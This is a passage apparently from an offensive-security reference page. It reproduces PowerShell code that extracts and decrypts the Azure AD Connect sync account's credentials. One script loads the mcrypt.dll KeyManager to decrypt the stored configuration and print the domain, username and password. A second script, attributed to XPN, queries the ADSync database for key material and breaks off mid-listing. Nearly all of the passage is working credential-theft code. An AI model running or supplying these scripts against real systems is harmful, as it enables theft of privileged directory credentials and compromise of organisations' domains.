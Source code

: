     add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
    $decrypted = $null
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)

    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)
    ```

###### Against up-to-date Azure AD Connect installations

The
[azuread_decrypt_msol_v2.ps1](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c)
PowerShell script implements the operating system commands execution through
the `MSSQL` service described above to achieve code execution under the
security context of the `NT SERVICE\ADSync` account.

```
# Author: Adam Chester (XPN).
# Source: https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

# !! For connection to full MSSQL database instance (and not database setup using the "Express" installation option), replace the connection string with the one below:
# $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"

Write-Host "AD Connect Sync Credential Extract v2 (@_xpn_)"
Write-Host "`t[ Updated to support new cryptokey storage method ]`n"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
try {
    $client.Open()
} catch {
    Write-Host "[!] Could not connect to localdb..."
    return
}
Write-Host "[*] Querying ADSync localdb (mms_server_configuration)"
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
if ($reader.Read() -ne $true) {
    Write-Host "[!] Error querying mms_server_configuration"
    return
}
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
Write-Host "[*] Querying ADSync localdb (mms_management_agent)"
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
```